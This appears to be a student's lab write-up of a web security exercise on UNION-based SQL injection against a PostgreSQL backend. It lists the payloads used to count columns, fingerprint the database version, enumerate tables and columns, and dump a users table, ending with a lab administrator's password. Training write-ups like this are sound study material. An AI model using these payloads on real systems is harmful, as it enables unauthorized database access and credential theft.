 Lab #9 :- Sql injjection attack, listing the database contents on non-Oracle databases

End Goals: 
- Determine the table that contains usernames and passwords
- Determine the relevent columns
- Output the content of the table
- Login as the administrative user

Ananlysis:

1. Find the number of columns 
' order by 3-- -> Internal server error'
3 - 1 = 2

2. Find the data type of the columns
' UNION select 'a','a' --
-> both coloumn accept type text

3. Version of the database 
' UNION SELECT @@version, NULL -- -> not Microsoft'
' UNION SELECT version(), NULL -- -> 200 OK PostgreSQL 11.11 (Debian 11.11-1 pgdg90+1)

4. Output the list of table names in the database

' UNION SELECT * FROM information_schema.tables

' UNION SELECT table_name , NULL FROM information_schema.tables--

5. Output the column names of the table

' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_xacgsm' --


username_pxqwui
password_bfvoxs

6. Output the usernames and passwords

' UNION select username_pxqwui, password_bfvoxs from users_xacgsm --

administator
9g91jpytvv5c091xpjxc


